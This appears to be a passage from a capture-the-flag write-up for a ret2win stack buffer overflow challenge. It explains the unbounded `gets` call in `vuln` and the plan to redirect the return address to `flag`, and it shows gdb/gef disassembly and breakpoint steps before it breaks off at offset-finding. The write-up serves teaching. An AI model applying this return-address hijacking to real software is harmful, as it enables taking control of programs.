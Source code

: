 The `vuln` function prompt user to input a string.

The `flag` function outputs the flag.

### Vulnerabilities

The `gets` function in `vuln` function does not check bounds, leading to a buffer overflow.

## Exploitation Strategy

- Perform buffer overflow at the `gets` function to change the return address to `flag` function.

- In a 64-bit architecture, The canonical address(valid address) range is 0x0000000000000000 to 0x00007FFFFFFFFFFF and 0xFFFF800000000000 to 0xFFFFFFFFFFFFFFFF. Any address outside this range is non-canonical. When the return address overwrite is non-canonical, the `rip` will not be overwriten.

- So we need to find the correct offset using `gef`.

- Craft a payload to overflow the return address to `flag` function address.

## Exploitation Steps

1. **Finding Offset**

- Run gdb

```terminal
$ gdb vuln
```

- Set breakpoint at the `gets` function in `vuln` function

```terminal
gef➤  disas vuln
Dump of assembler code for function vuln:
   0x00000000004012b2 <+0>:     endbr64
   0x00000000004012b6 <+4>:     push   rbp
   0x00000000004012b7 <+5>:     mov    rbp,rsp
   0x00000000004012ba <+8>:     sub    rsp,0x40
   0x00000000004012be <+12>:    lea    rax,[rbp-0x40]
   0x00000000004012c2 <+16>:    mov    rdi,rax
   0x00000000004012c5 <+19>:    mov    eax,0x0
   0x00000000004012ca <+24>:    call   0x401100 <gets@plt>
   0x00000000004012cf <+29>:    nop
   0x00000000004012d0 <+30>:    leave
   0x00000000004012d1 <+31>:    ret
End of assembler dump.
gef➤  break *0x00000000004012ca
```

- Run to the breakpoint and step to `gets` function

```terminal
gef➤  run
gef➤  ni
AAAA
```
